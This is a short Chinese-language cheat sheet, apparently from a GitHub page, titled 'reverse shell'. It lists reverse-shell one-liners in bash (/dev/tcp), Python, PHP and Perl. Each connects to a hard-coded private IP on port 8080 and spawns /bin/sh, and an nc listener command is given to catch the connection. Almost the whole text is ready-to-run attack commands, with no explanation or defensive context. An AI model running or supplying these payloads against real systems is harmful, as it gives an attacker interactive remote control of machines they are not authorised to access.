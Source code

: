 # 反弹shell

## bash:
反弹shell: bash - i >& /dev/tcp/192.168.1.7/8080 0>&1

监听：nc -lvvp 8080

## python:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.31.41",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## php:
php -r '$sock=fsockopen("192.168.31.41",8080);exec("/bin/sh -i <&3 >&3 2>&3");'

## perl：
perl -e 'use Socket;$i="192.168.31.41";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
